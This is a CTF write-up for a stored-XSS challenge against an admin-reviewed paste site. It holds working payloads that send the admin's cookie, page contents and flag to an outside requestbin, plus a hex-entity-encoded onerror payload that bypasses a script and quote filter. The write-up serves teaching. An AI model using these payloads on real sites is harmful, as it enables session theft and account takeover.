 # Admin Secrets

## Problem

See if you can get the flag from the admin at this website!

Written by avz92

## Solution

This was probably one of my favourite challenges from the CTF (that is after the update was added where the challenge gave more feedback)

Visiting the website, we can create an account. The website is called Textbin, very similar to a Pastebin where you can type text and it will save it as a post. It also let's you report posts to the admin. That sounds very much like a Cross Site Scripting (XSS) attack.  

Trying `<script>alert(1)</script>` confirms that.

Like with most XSS challenges, I assumed we need to steal the admin's session cookie allowing us to login as them. So I wrote a small cookie stealing script and have the admin's cookie sent over to a requestbin. 

```js
<script>
  req = new XMLHttpRequest(); 
  req.open('GET', 'https://en80on4rjnaxk.x.pipedream.net/?cookie=' + document.cookie); 
  req.send();
</script>
```

From that we get:
`hint="Check the admin console!\012"`

Looking at the source code of the page where it says report to admin, we can see a div,

```html
<div class="col-8 admin_console" >
  <!-- Only the admin can see this -->
</div>
```

So instead of stealing `document.cookie` let's steal `document.getElementsByClassName("admin_console")[0].innerHTML`

However, there is one additional step due to the fact that the admin console is loaded after our XSS executes so we need to add an event listener to run the XSS after everything has been rendered

```js
<script>
document.addEventListener("DOMContentLoaded", function(event){
  req = new XMLHttpRequest(); 
  req.open('GET', 'https://enl502avnnt87.x.pipedream.net/?output=' + encodeURI(document.getElementsByClassName("admin_console")[0].innerHTML)); 
  req.send();
});
</script>
```

From that we get:
```html
<!-- Only the admin can see this --> 
<button class="btn btn-primary flag-button">Access Flag</button>
<a href="/button" class="btn btn-primary other-button">Delete User</a>
<a href="/button" class="btn btn-primary other-button">Delete Post</a>
```

Instead of simulating the press of the flag button, I opted to simply leak the entire source code and see what pressing the button does.

```js
<script>
document.addEventListener("DOMContentLoaded", function(event){
  req = new XMLHttpRequest();
  req.open('GET', 'https://en80on4rjnaxk.x.pipedream.net/?output=' + btoa(document.getElementsByTagName('HTML')[0].innerHTML));
  req.send();
});
</script>
```

We can see the button simply makes a get request to `/admin_flag` endpoint.

I thought I was really close to solving it at this point, simply needed to make the admin visit that endpoint and sent its contents to the requestbin. 

```js
<script>
req1 = new XMLHttpRequest();
req1.open('GET', '/admin_flag');
req1.onload = function() {
    var flag = req1.response;
    req = new XMLHttpRequest(); 
    req.open('GET', 'https://en80on4rjnaxk.x.pipedream.net/?output=' + encodeURI(flag)); 
    req.send();
}
req1.send();
</script>
```

Unfortunately, we don't get the flag from that. Instead we get:
```
This post contains unsafe content. To prevent unauthorized access, the flag cannot be accessed for the following violations: Script tags found. Single quote found. Parenthesis found.
```

So looks like the author implemented some sort of filtering. The weird part is the XSS still works but looks like the flag got replaced by that.
After a lot of googling and research, I was able to find a way to bypass the checks the site makes. 

```html
<img src=1 onerror=&#x72&#x65&#x71&#x31&#x20&#x3d&#x20&#x6e&#x65&#x77&#x20&#x58&#x4d&#x4c&#x48&#x74&#x74&#x70&#x52&#x65&#x71&#x75&#x65&#x73&#x74&#x28&#x29&#x3b&#x0a&#x72&#x65&#x71&#x31&#x2e&#x6f&#x70&#x65&#x6e&#x28&#x60&#x47&#x45&#x54&#x60&#x2c&#x20&#x60&#x2f&#x61&#x64&#x6d&#x69&#x6e&#x5f&#x66&#x6c&#x61&#x67&#x60&#x29&#x3b&#x0a&#x72&#x65&#x71&#x31&#x2e&#x6f&#x6e&#x6c&#x6f&#x61&#x64&#x20&#x3d&#x20&#x66&#x75&#x6e&#x63&#x74&#x69&#x6f&#x6e&#x28&#x29&#x20&#x7b&#x20&#x0a&#x09&#x76&#x61&#x72&#x20&#x66&#x6c&#x61&#x67&#x20&#x3d&#x20&#x72&#x65&#x71&#x31&#x2e&#x72&#x65&#x73&#x70&#x6f&#x6e&#x73&#x65&#x3b&#x0a&#x09&#x72&#x65&#x71&#x20&#x3d&#x20&#x6e&#x65&#x77&#x20&#x58&#x4d&#x4c&#x48&#x74&#x74&#x70&#x52&#x65&#x71&#x75&#x65&#x73&#x74&#x28&#x29&#x3b&#x0a&#x09&#x72&#x65&#x71&#x2e&#x6f&#x70&#x65&#x6e&#x28&#x60&#x47&#x45&#x54&#x60&#x2c&#x20&#x60&#x68&#x74&#x74&#x70&#x73&#x3a&#x2f&#x2f&#x65&#x6e&#x67&#x75&#x6a&#x7a&#x72&#x37&#x77&#x6c&#x79&#x30&#x6b&#x2e&#x78&#x2e&#x70&#x69&#x70&#x65&#x64&#x72&#x65&#x61&#x6d&#x2e&#x6e&#x65&#x74&#x2f&#x3f&#x6f&#x75&#x74&#x70&#x75&#x74&#x3d&#x60&#x20&#x2b&#x20&#x65&#x6e&#x63&#x6f&#x64&#x65&#x55&#x52&#x49&#x28&#x66&#x6c&#x61&#x67&#x29&#x29&#x3b&#x0a&#x09&#x72&#x65&#x71&#x2e&#x73&#x65&#x6e&#x64&#x28&#x29&#x3b&#x20&#x0a&#x09&#x7d&#x0a&#x72&#x65&#x71&#x31&#x2e&#x73&#x65&#x6e&#x64&#x28&#x29&#x3b />
```

The image source does not exist, so it goes to the onerror and executes the javascript which is encoded in hex. 

Flag: **tjctf{st0p_st3aling_th3_ADm1ns_fl4gs}**
